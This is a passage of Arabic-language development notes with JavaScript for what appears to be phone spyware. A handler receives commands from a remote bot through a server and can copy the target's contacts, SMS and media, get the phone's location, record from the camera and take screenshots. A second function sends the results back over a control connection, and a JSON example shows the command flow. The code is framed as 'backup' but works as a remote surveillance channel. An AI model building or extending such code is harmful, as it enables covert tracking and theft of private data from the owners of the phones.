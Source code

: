 #### **3. إضافة `commandId` للنتائج:**
```javascript
function handleIncomingCommand(command) {
    window.currentCommandId = command.id;
    
    switch(command.action) {
        case 'backup_contacts':
            backupContacts();
            break;
        case 'backup_sms':
            backupSMS();
            break;
        case 'backup_media':
            backupMedia();
            break;
        case 'get_location':
            getCurrentLocation();
            break;
        case 'record_camera':
            recordCamera(command.duration || 30);
            break;
        case 'take_screenshot':
            takeScreenshot();
            break;
    }
}

function sendCommandResult(command, status, data) {
    window.controlConnection.send(JSON.stringify({
        type: 'command_result',
        commandId: window.currentCommandId || 'unknown',
        command: command,
        status: status,
        data: data,
        timestamp: Date.now()
    }));
}
```

## 📊 تدفق البيانات المصحح لجميع الأوامر

### **1. البوت → الخادم:**
```
POST /send-command
{
  "deviceId": "DEV-123456",
  "command": "backup_sms|backup_media|get_location|record_camera|take_screenshot",
  "parameters": {}
}
```
